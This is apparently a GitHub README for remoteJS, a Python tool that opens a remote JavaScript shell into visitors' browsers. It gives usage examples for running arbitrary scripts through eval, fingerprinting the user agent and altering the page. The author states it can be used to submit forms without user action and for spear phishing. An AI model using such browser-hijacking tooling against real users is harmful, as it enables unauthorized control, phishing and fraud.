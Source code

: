 # remoteJS

## Spawn a remote shell in a client's browser.
This tool has the potential to be used for malicious use, such as inserting form controls, using autocomplete to fill them, and then submitting them, all without any user interaction. 

Furthermore spear phising attacks can be carried out by sending specific content to different people dynamically, including alerts and popups.

Please use responsibly, as I am not liable for any damage (including criminal charges) which may arise from use of this software.

## Requirements
To use remoteJS, you will need Python 3.
Additionally, you will need to install some dependencies:

```pip3 install -r requirements.txt```

## Usage
To startup the server and interpreter, enter the following:

```python3 remoteJS.py```

You should then see the following interpreter:
```
~/Projects/remoteJS >>> python3 remoteJS.py

        ____                       __           _______
       / __ \___  ____ ___  ____  / /____      / / ___/
      / /_/ / _ \/ __ `__ \/ __ \/ __/ _ \__  / /\__ \ 
     / _, _/  __/ / / / / / /_/ / /_/  __/ /_/ /___/ / 
    /_/ |_|\___/_/ /_/ /_/\____/\__/\___/\____//____/  
                                            By fputs    
    
 * Serving Flask app "remoteJS" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * WARNING: I am not liable for any damage (including criminal charges) which may arise from use of this software.
 * For more information see the LICENSE file included with this software.
 * Ready!

(None)>
```

### Available Commands
You can view all available commands by running the `help` command:

```
(None)>help

Command       | Description                          | Syntax
--------------------------------------------------------------------------------
set           | Sets an environment variable.        | set <varname> <value>
show          | Shows an environment variable.       | show (varname|all)
show sessions | Shows all active sessions.           | show sessions
exit          | Shuts down the server.               | exit|quit
exec          | Run a script in the client's browser | exec <script>
```

### Viewing Connected Hosts
In order to execute a script in a client's browser, you must first select the client from the current sessions. To view sessions, run the `show sessions` command:

```
(None)>show sessions

Hostname             | TTL (sec)                 
--------------------------------------------------------------------------------
localhost            | 2                                                           
```

In this example, we can see that we have an active session open to `localhost`.

### Selecting a Host
Now we must select our host, so we set variables using the `set` command. Naming conventions follow Metasploit's names, so we must set the `RHOST` variable to define our target:

```
(None)>set RHOST localhost
Assigned RHOST -> localhost
(localhost)>
```

You can now see, that the target host appears within the cursor, to indicate that we will execute our scripts within that host's browser.

### Launching a Script
Currently remoteJS only supports manual typing of scripts via the commandline, however I will be adding modules to allow different scripts to be automatically loaded.

Let's send our target a friendly alert that will say 'Hello localhost!'. To do this, we will use the `exec` command, this allows us to run any Javascript we like:

```
(localhost)>exec alert('Hello localhost!')
localhost:5000: Status=OK
```

This method will also provide a status and response.

## More Examples

### Getting Information
We can also use this tool to carry out some recon on our target, for instance, we can get information about their CPU, browser and OS, even if they prevent the browser from sharing this information in GET/POST requests. This is done by executing a simple script:

```
(localhost)>exec navigator.userAgent
localhost:5000: Status=OK, Response=Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0f
```

Magic! We now know that the user is on a 64-bit Intel Linux box, running Firefox version 77.

### Modifying DOM
If you know anything about manipulating DOM with JS, then this will be no surprise, but we can dynamically modify the webpage on the fly. In this example, we insert a new subheading:

```
(localhost)>exec {document.getElementsByTagName("body")[0].innerHTML += "<h2>Where did that come from?</h2>"; true;}
localhost:5000: Status=OK, Response=true
```

This adds a subheading containing the text `Where did that come from?`.

You may notice I've enclosed the statement in curly braces, with a `true` statement inserted at the end. This supresses the output of the command, as remoteJS uses the javascript `eval` command, and in this instance, it would return the entire document DOM, and that just doesn't look nice.

